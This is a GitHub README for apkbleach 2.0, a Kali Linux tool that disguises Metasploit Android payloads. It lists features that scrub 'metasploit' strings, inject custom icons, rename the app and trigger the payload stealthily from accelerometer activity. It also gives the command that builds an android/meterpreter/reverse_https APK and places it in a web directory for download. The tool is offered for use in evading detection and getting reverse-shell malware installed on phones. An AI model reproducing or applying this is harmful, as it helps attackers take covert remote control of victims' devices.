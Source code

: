 # apkbleach 2.0
![Screen shot of sofware image](https://github.com/graylagx2/Images/blob/master/apkbleach2.png)

**About:**

This software was developed specifically for Kali-Linux to remove the obvious fingerprints of metasploit through out a android PAYLOAD along with assisting the user in making PAYLOAD.apk more installable across a wider range of devices.

**Features:**

1) Line by line permissions editing. The software will go through each permission in the manifest and ask if you want to delete it.

2) Stealth option. This executes the payload off the devices accelerometer instead of on open. This option also allows you to choose how many sessions you want spawned of exploit.

3) Custom icon injection. This allows users to modify the app icon that appears on the home screen of a android device. You can choose from a icon apkbleach provides or you can supply your own. Apkbleach will do all the work for you.

4) Renames the application to the name you put chose as the ouput file

5) Scrubs the entire application of any mentions of the name "metasploit" or "stage". There are a lot by the way. sending security testing with an app that contains the name metasploit is just funny :-)

6) Adds padnops to PAYLOAD

7) Signs apk with jarsigner. msfenom produces unsigned apps

8) Zip aligns apk

9) Apktool upgrade feature. If the software detects youre using apktool version 2.4.1-dirty which is Kali's package maintainers version it will ask if you want to replace it with the lates version frfom ibot peaches. This is a good idea because it conflicts with the msfvenom -x option and throws a version number error. Not to mention the problems it has given users in the past.

**Usage:**

    apkbleach -g android/meterpreter/reverse_https LHOST=Address LPORT=port -s 3 -i BLEACH_settings --edit-permissions -o /var/www/html/payload.apk

     apkbleach --list-payloads
 
     apkbleach --list-icons
 
     apkbleach --clear-cache
 

**optional arguments:**

      -h, --help            show this help message and exit
  
      -g [PAYLOAD] [LHOST] [LPORT]
                        Generates a payload
                        
      -s [number of sessions to spawn 1-5]
                        Executes payload on accelerometer activity instead of on open
                        
      -i [BLEACH_icon..] or [path/to/custom/icon]
                        Injects an icon
                        
      -o [output/path/for/apk]
                        Path to output apk
                        
      --edit-permissions    Enables permission editing in apk's manifest
  
      --list-payloads       List available icons
  
      --list-icons          List available icons
  
      --clear-cache         Allows prompt whether to keep package maintainers version apktool
  
**Install instructions:**

After cloning or downloading the repository cd into the apkbleach directory and run run install.sh

    cd apkbleach
    bash install.sh
    
or

    cd apkbleach
    chmod +x install.sh
    ./install.sh
